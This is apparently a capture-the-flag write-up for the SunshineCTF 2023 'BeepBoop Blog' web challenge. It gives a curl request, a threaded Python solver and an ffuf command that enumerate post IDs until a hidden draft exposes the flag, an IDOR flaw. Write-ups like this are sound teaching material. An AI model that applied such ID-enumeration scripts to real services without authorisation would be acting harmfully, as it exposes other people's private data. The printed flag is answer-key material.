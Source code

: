 # BeepBoop Blog

## Description

> A few robots got together and started a blog! It's full of posts that make absolutely no sense, but a little birdie told me that one of them left a secret in their drafts. Can you find it?
>
> <https://beepboop.web.2023.sunshinectf.games>

## Flag

sun{wh00ps_4ll_IDOR}

## Solution

Requesting blog post by specifying ID (e.g. `/post/1/`), there is hidden field in response json.

```console
root@kali:~/ctf/SunshineCTF_2023/scripting/SimonProgrammer 1# curl -sk https://beepboop.web.2023.sunshinectf.games/post/1/ | jq
{
  "hidden": false,
  "post": "(snip)",
  "user": "Robot #911"
}
```

So I retrieve all blog posts with `/post/:id/` and output a response which has `"hidden": true`.

solver.py

```python
from concurrent.futures import ThreadPoolExecutor

import requests

requests.packages.urllib3.disable_warnings()

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}


def pwn(i: int):
    resp = s.get(f"https://beepboop.web.2023.sunshinectf.games/post/{i}/", verify=False)
    resp = resp.json()
    if resp["hidden"] == True:
        print(i)
        print(resp)
        exit(0)


with ThreadPoolExecutor(max_workers=100) as executor:
    for i in range(1, 1024):
        executor.submit(pwn, i)
```

```console
root@kali:~/ctf/SunshineCTF_2023/Web/BeepBoop_Blog# python3 solver.py
608
{'hidden': True, 'post': 'sun{wh00ps_4ll_IDOR}', 'user': 'Robot #000'}
```

Fuzzing tools, such as [ffuf/ffuf](https://github.com/ffuf/ffuf), is also useful.

```console
root@kali:~/ctf/SunshineCTF_2023/Web/BeepBoop_Blog# seq 1 1024 > ids.txt

root@kali:~/ctf/SunshineCTF_2023/Web/BeepBoop_Blog# ffuf -u https://beepboop.web.2023.sunshinectf.games/post/FUZZ/ -w ids.txt -mr '"hidden":true'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://beepboop.web.2023.sunshinectf.games/post/FUZZ/
 :: Wordlist         : FUZZ: /root/ctf/SunshineCTF_2023/Web/BeepBoop_Blog/ids.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: "hidden":true
________________________________________________

608                     [Status: 200, Size: 66, Words: 2, Lines: 2, Duration: 202ms]
:: Progress: [1024/1024] :: Job [1/1] :: 240 req/sec :: Duration: [0:00:05] :: Errors: 0 ::

root@kali:~/ctf/SunshineCTF_2023/Web/BeepBoop_Blog# curl -sk https://beepboop.web.2023.sunshinectf.games/post/608/
{"hidden":true,"post":"sun{wh00ps_4ll_IDOR}","user":"Robot #000"}
```
